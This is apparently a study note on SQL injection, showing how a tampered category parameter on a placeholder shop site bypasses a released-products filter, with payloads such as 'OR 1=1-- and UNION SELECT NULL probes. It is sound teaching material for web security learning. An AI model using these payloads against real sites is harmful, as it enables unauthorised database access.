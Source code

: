 #

## Retrieving hidden data
*Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:*
``https://insecure-website.com/products?category=Gifts``
*This causes the application to make a SQL query to retrieve details of the relevant products from the database:*
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
 *This SQL query asks the database to return:*

- all details (*)
- from the products table
- where the category is Gifts
- and released is 1.

*The restriction ``released = 1`` is being used to hide products that are not released. For unreleased products, presumably ``released = 0``.*

***An attacker can construct an attack like:***
```sql
https://insecure-website.com/products?category=Gifts'--
```
***Going further,an attacker can cause the application to display all the products in any category, including categories that they don't know about:***
```sql
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```
#### Summary 
``'`` <br>
``'--`` <br>
``'OR 1=1--`` & ``'+OR+1=1--`` <br>
``'OR 1=2--`` & ``'+OR+1=2--`` <br>

***etc..***

#
## UNION ATTACKS (TIP)
*In UNION attacks sometimes server applies only you input `#` or `--`.*
- Example, see the differences
```sql
' UNION SELECT NULL,NULL#
```
```sql
' UNION SELECT NULL,NULL--
```

#

## SQL injection examples
*There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations. Some common SQL injection examples include:*
